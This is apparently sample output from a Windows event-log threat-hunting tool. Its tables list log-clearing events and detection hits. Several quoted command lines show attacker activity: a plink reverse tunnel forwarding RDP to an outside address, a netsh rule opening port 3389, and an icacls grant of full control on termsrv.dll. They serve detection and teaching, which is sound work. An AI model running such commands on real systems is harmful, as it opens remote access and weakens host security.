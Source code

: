     ├─────────────────────┼──────┼───────────────────────────────────┼─────────────────┤
    │ 2020-09-15 18:04:36 │ 1102 │ "MSEDGEWIN10"                     │ "IEUser"        │
    ├─────────────────────┼──────┼───────────────────────────────────┼─────────────────┤
    │ 2020-09-15 19:28:17 │ 1102 │ "01566s-win16-ir.threebeesco.com" │ "a-jbrown"      │
    ├─────────────────────┼──────┼───────────────────────────────────┼─────────────────┤
    │ 2020-09-17 10:57:37 │ 1102 │ "01566s-win16-ir.threebeesco.com" │ "a-jbrown"      │
    ├─────────────────────┼──────┼───────────────────────────────────┼─────────────────┤
    │ 2020-09-23 16:49:41 │ 1102 │ "01566s-win16-ir.threebeesco.com" │ "Administrator" │
    └─────────────────────┴──────┴───────────────────────────────────┴─────────────────┘

    [+] Detection: Suspicious Command Line
    ┌─────────────────────┬──────┬──────────────────────────────┬─────────────────────┬─────────────────────────────┬───────────────────────────────────┐
    │     system_time     │  id  │       detection_rules        │    computer_name    │ Event.EventData.CommandLine │           process_name            │
    ├─────────────────────┼──────┼──────────────────────────────┼─────────────────────┼─────────────────────────────┼───────────────────────────────────┤
    │ 2019-02-13 18:03:28 │ 4688 │ ‣ Exfiltration and Tunneling │ "PC01.example.corp" │ <empty>                     │ C:\Users\user01\Desktop\plink.exe │
    │                     │      │ Tools Execution              │                     │                             │                                   │
    └─────────────────────┴──────┴──────────────────────────────┴─────────────────────┴─────────────────────────────┴───────────────────────────────────┘

    [+] Detection: Suspicious Process Creation
    ┌─────────────────────┬────┬──────────────────────────────────────────┬────────────────────────────────┬────────────────────────────────────────────────────┬────────────────────────────────────────────────────┐
    │     system_time     │ id │             detection_rules              │         computer_name          │               Event.EventData.Image                │                    command_line                    │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-02-16 10:02:21 │ 1  │ ‣ Exfiltration and Tunneling             │ "PC01.example.corp"            │ C:\Users\IEUser\Desktop\plink.exe                  │ plink.exe 10.0.2.18 -P 80 -C -R 127.0.0.3:4444:127 │
    │                     │    │ Tools Execution                          │                                │                                                    │ .0.0.2:3389 -l test -pw test                       │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-03-17 20:18:09 │ 1  │ ‣ Netsh Port or Application              │ "PC04.example.corp"            │ C:\Windows\System32\netsh.exe                      │ netsh advfirewall firewall add rule name="Remote D │
    │                     │    │ Allowed                                  │                                │                                                    │ esktop" dir=in protocol=tcp localport=3389 profile │
    │                     │    │ ‣ Netsh RDP Port Opening                 │                                │                                                    │ =any action=allow                                  │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-03-17 20:20:17 │ 1  │ ‣ File or Folder Permissions             │ "PC04.example.corp"            │ C:\Windows\System32\icacls.exe                     │ "C:\Windows\System32\icacls.exe" C:\Windows\System │
    │                     │    │ Modifications                            │                                │                                                    │ 32\termsrv.dll /grant %%username%%:F               │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤